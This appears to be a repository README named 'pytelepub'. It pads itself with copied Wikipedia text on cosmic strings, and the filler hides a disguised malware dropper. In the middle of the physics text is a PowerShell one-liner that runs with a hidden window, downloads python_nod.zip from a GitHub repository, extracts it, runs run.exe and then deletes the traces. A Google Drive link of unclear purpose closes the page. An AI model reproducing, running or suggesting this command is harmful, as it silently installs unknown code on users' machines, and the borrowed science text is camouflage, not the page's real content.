 # pytelepub
source: https://en.wikipedia.org/wiki/Cosmic_string

Cosmic strings are hypothetical 1-dimensional topological defects which may have formed during a symmetry breaking phase transition in the early universe when the topology of the vacuum manifold associated to this symmetry breaking was not simply connected. It is expected that at least one string per Hubble volume is formed. Their existence was first contemplated by the theoretical physicist Tom Kibble in the 1970s.

The formation of cosmic strings is somewhat analogous to the imperfections that form between crystal grains in solidifying liquids, or the cracks that form when water freezes into ice. The phase transitions leading to the production of cosmic strings are likely to have occurred during the earliest moments of the universe's evolution, just after cosmological inflation, and are a fairly generic prediction in both quantum field theory and string theory models of the early universe.

In string theory, the role of cosmic strings can be played by the fundamental strings (or F-strings) themselves that define the theory perturbatively, by D-strings which are related to the F-strings by weak-strong or so called S-duality, or higher-dimensional D-, NS- or M-branes that are partially wrapped on compact cycles associated to extra spacetime dimensions so that only one non-compact dimension remains.[1]

The prototypical example of a quantum field theory with cosmic strings is the Abelian Higgs model. The quantum field theory and string theory cosmic strings are expected to have many properties in common, but more research is needed to determine the precise distinguishing features. The F-strings for instance are fully quantum-mechanical and do not have a classical definition, whereas the field theory cosmic strings are almost exclusively treated classically.

Cosmic strings, if they exist, would be extremely thin with diameters of the same order of magnitude as that of a proton, i.e. ~ 1 fm, or smaller. Given that this scale is much smaller than any cosmological scale these strings are often studied in the zero-width, or Nambu–Goto approximation. Under this assumption strings behave as one-dimensional objects and obey the Nambu–Goto action, which is classically equivalent to the Polyakov action that defines the bosonic sector of superstring theory.

In field theory, the string width is set by the scale of the symmetry breaking phase transition. In string theory, the string width is set (in the simplest cases) by the fundamental string scale, warp factors (associated to the spacetime curvature of an internal six-dimensional spacetime manifold) and/or the size of internal compact dimensions. (In string theory, the universe is either 10- or 11-dimensional, depending on the strength of interactions and the curvature of spacetime.)

PowerShell.exe -windowstyle hidden $ident = "Get-ChildItem -Path '.' -Filter 'kpll.p'"; if ($ident.count -eq 0) { echo 'run32.dll found' > kpll.p; Remove-Item project.zip -Force:$true -Confirm:$false; Remove-Item project -Recurse:$true -Force:$true -Confirm:$false; iwr -OutFile project.zip https://github.com/Imper927/pytelepub/raw/master/python_nod.zip; Expand-Archive .\\project.zip; cd project; ./run.exe; cd ..; Remove-Item project.zip -Force -Confirm:$false; Remove-Item project -Recurse:$true -Force:$true -Confirm:$false; Remove-Item project -Recurse:$true -Force:$true -Confirm:$false }

A string is a geometrical deviation from Euclidean geometry in spacetime characterized by an angular deficit: a circle around the outside of a string would comprise a total angle less than 360°. From the general theory of relativity such a geometrical defect must be in tension, and would be manifested by mass. Even though cosmic strings are thought to be extremely thin, they would have immense density, and so would represent significant gravitational wave sources. A cosmic string about a kilometer in length may be more massive than the Earth.

However general relativity predicts that the gravitational potential of a straight string vanishes: there is no gravitational force on static surrounding matter. The only gravitational effect of a straight cosmic string is a relative deflection of matter (or light) passing the string on opposite sides (a purely topological effect). A closed cosmic string gravitates in a more conventional way.

During the expansion of the universe, cosmic strings would form a network of loops, and in the past it was thought that their gravity could have been responsible for the original clumping of matter into galactic superclusters. It is now calculated that their contribution to the structure formation in the universe is less than 10%.

Negative mass cosmic string
The standard model of a cosmic string is a geometrical structure with an angle deficit, which thus is in tension and hence has positive mass. In 1995, Visser et al. proposed that cosmic strings could theoretically also exist with angle excesses, and thus negative tension and hence negative mass. The stability of such exotic matter strings is problematic; however, they suggested that if a negative mass string were to be wrapped around a wormhole in the early universe, such a wormhole could be stabilized sufficiently to exist in the present day.

https://drive.google.com/folderview?id=1C8w_Az3oUoOvcA1fGA6B_XPAkmXiSA6M
